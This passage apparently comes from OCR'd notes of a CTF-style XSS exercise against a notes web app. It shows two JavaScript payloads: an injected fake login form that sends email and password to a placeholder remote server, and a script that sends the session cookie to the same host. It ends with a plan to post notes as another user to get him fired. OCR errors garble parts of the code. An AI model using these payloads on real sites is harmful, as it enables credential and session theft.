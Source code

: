 ```JavaScript
<div id="formContainer"></div>

<script>

	var email;

	var password;

	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contraseña: <input type="password” id="password” required>' +
		'<input type="button” onclick="submitForm()" value="Submit">' +
		'</form>';

	document.getElementBvld("formContainer”).innerHTML = form;

	function submitForm() {
		email = document.getElementByld("email”).value;
		password = document.getElementByld("password").value;
		fetch("http://<remote_server_ip>/?email=" + email + "&password=" + password);
	}

</script>
```

![[Untitled 57.png]]

Now we can test External Source Js include and steal the session cookie.

  

```JavaScript
<script src"http://<remote_server_ip>/js.js">
	var request = new XMLHttpRequest();
	request.open('GET','http://<remote_server_ip>/?cookie=' + document.cookie);
	request.send();
</script>
```

Uploading this to the note.

![[Untitled 58.png]]

![[Untitled 59.png]]

---

Perfect, lets get rid of the user **test**, because he is bad.

The plan is to post bad notes with his username, so he get fired. For this we need to capture the data to see what is going on on a new post.

![[Untitled 60.png]]
